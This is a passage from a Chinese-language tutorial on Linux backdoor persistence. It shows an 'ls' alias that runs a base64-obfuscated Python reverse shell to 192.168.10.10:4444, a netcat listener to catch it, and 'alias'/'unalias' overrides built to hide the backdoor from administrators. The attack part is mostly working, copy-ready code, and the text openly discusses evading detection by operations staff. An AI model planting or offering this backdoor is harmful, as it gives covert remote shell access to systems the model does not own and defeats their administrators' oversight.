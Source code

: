 ### 5.3.1. 执行命令

这里将命令别名绑定到ls命令上，这里可能会有一点小问题就是有些系统上并没有安装python3，所以我也不测试了。

![image-20230823140840983](assets/image-20230823140840983.png)

### 5.3.2. 查看效果

可以看到确实是反弹过来了，不过是使用的是python，并没有指定python3，所以这里反弹回来后，并不能执行命令。

```
nc -lvvp 4444
```

![image-20230823140924149](assets/image-20230823140924149.png)

### 5.3.3. 问题

这里最终的问题就是存在一个python版本问题，同时如果运维人员设定过ls命令的别名，那么你一修改，那么一定会被发现，同时该手法在重启后就不再生效了。

## 5.4. 持久化

这里就是保证系统在重启后依旧能够生效。

### 5.4.1. 修改文件

```
vim /etc/upload  #将下面的三个后门命令写入
alias ls='alerts(){ ls $* --color=auto;python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'')))";};alerts'

alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'

alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'
```
